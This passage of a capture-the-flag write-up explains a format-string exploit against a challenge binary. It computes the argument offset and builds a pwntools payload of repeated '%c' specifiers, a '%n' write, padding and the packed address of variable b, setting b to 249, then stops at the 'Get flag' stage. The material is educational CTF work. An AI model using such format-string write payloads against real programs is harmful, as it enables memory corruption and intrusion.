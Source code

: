 So we will want to put the address of `b` to the end of input at address `0x7ffda58eb9a0 + 0x8`. Just by counting and we get the format string offset is `6 + 11 = 17`.

Remember this, we shouldn't use `%<n>$p` for writing so we will use the standard form. The following code will be the same as `%17$p`:

```
# Each '%' will count 1
payload = b'%c'*15
payload += b'%c%p'
```

So first, we will try to put the address of `b` into that position:

```
payload = b'%c'*15
payload += b'%c%p'               # We will use this to change b
payload = payload.ljust(0x58)    # Padding
payload += p64(exe.sym['b'])
```

And we want to write 249 bytes to `b` so at second line of above payload, we will change to this:

```
payload = b'%c'*15
payload += '%{}c%n'.format(249 - 15).encode()    # We will use this to change b
payload = payload.ljust(0x58)                    # Padding
payload += p64(exe.sym['b'])
```

Why I write `249 - 15`, it is because it will write all byte before `%n` in to the position of `b` (use `%p` will give us correct address of `b` so use `%n` will write number of byte before it to `b`).

The full code for this stage is as below:

```
p.sendlineafter(b'2) Upgrade Pack', b'1')

payload = b'%c'*15
payload += '%{}c%n'.format(249-15).encode()    # We will use this to change b
payload = payload.ljust(0x58, b'P')             # Padding
payload += p64(exe.sym['b'])
p.sendlineafter(b'Wanna upgrade pack?', payload)
```

Running it and check in GDB, we can see that `b` is change to 249:

![b_changed.png](images/b_changed.png)

It works. Let's move on final stage: Get flag!

### Stage 3: Get flag
